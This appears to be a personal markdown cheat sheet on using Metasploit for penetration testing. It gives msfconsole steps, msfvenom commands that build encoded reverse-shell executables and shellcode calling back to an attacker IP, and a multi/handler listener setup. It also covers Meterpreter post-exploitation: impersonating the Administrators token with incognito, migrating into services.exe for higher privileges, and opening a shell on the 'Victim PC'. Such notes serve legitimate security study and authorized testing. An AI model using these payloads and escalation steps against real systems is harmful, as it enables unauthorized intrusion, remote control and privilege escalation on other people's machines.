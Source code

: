 ```yaml
---
category: Uncategorized
tags: []
---
```

metasploit

~~~bash
msfconsole
msfvenom
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb
~~~

Launch MSFConsole

~~~bash
msfconsole
~~~

Pick an Exploit (Way into the system)

~~~bash
use exploit/.../.../.../explot_to_use
~~~

Set a Payload (Way back to you)

~~~bash
set PAYLOAD .../.../.../reverse_shell
set PAYLOAD .../.../.../bind_shell
~~~

Show Options to Set

~~~bash
show options
~~~

Set Options within the Exploit and Payload

~~~bash
set LHOST 10.10.10.100
set LPORT 4444
set RHOSTS 10.10.10.10
set RPORT 8080
etc...
~~~

Spool output to file

~~~bash
spool /home/kali/spool_file.txt
~~~

Stopping Spooling

~~~bash
spool off
~~~

Run Exploit

~~~bash
run
~~~

Accepting Connections Within Metasploit

~~~bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-ip
set LPORT listening-port
run
~~~

Breakdown of the above:

use exploit/multi/handler                                        -- Sets up the handler to accept the incoming connection
set PAYLOAD windows/meterpreter/reverse_tcp           -- Sets the payload for the handler to accept and interpret properly (THIS MUST MATCH THE MSFVENOM GENERATED PAYLOAD)
set LHOST your-ip                                                  -- Sets the Local Host IP/Listening Host IP for accepting the incoming connection
set LPORT listening-port                                          -- Sets the Local Port on the Local/Listening Host to Listen on for the incoming connection
run                                                                      -- Runs the Handler that we have set up

Example of the MSFVenom command used to set this attack up:

~~~bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
~~~

Once you have a meterpreter shell, you can type “help” for a list of commands available to you in the Meterpreter session. If you do not have needed commands, you may be running mismatched meterpreter payloads and meterpreter can't get a proper session set up.

Once you have a Meterpreter session active, you can load and use modules on the Victim PC.

To load a module, issue the command:

~~~bash
load <module name>
~~~

ex. load incognito

Incognito is used for Token Impersonation

~~~bash
Meterpreter>load incognito
~~~

List Available Tokens for Impersonation

List groups

~~~bash
list_tokens -g
~~~

list users

~~~bash
list_tokens -u
~~~

Impersonate a Specific Available Token

~~~bash
impersonate_token "BUILTIN\Administrators"
~~~

Verify that you have Successfully Impersonated the Token

~~~bash
getuid
~~~

Find a safe Process to Migrate to for Primary Token (Impersonation is a stepping stone for Primary Token Impersonation)

~~~bash
ps
~~~

Locate the PID for “services.exe” as this is generally a safe process to migrate to for escalation

~~~bash
migrate <PID Number>
~~~

After Successfully Migrating to another process with Higher Privs, you can now execute an interactive shell on the system

~~~bash
shell
~~~

Allows you to generate shellcode or executables for access on a victim machine

Shellcode Generation 

***(This will work without Metasploit as this is a non-meterpreter payload)

~~~bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=LISTENER_PORT EXITFUNC=thread -f c -a x86 -b "\x00\OTHERBADCHARS"
~~~

Breakdown of the above command:
-p == Payload Specification
windows/shell_reverse_tcp == Payload To Use
LHOST == Local Host IP (Attacker PC)
LPORT == Listener Port (Attacker PC)
EXITFUNC == Function To Exit Payload Gracefully
-f == Format/File Type
c == C Code (exe would indicate windows binary, py would indicate python script, etc.)
-a == Architecture Specification
x86 == 32Bit Architecture
-b == Bad Character Specification (used for Buffer Overflow Shellcode)
“\x00\OTHERBADCHARS” == Bad Character Definitions

Executable Generation 

***(This will not work outside of Metasploit as this is a meterpreter payload)

~~~bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.10.10 LPORT=4444 -f exe -o badexecutable.exe
~~~

Breakdown of the above command:
-p == Payload Specification
windows/shell_reverse_tcp == Payload To Use
-a == Architecture Specification
x86 == 32Bit Architecture
--encoder == Encoder Specification flag
x86/sikata_ga_nai == Encoder Definition
LHOST == Local Host IP (Attacker PC)
LPORT == Listener Port (Attacker PC)
-f == Format/File Type
exe == exe binary (exe would indicate windows binary, py would indicate python script, etc.)
-o == Output File Specification Flag
badexecutable.exe == Output File Definition (Path can be included i.e. /home/user/badexecutable.exe)

!IMPORTANT NOTES!

Meterpreter Payloads will only be accepted in Metasploit
Other Payloads should be able to be accepted using NetCat

~~~bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.152 LPORT=4444 -f elf -o shell
~~~
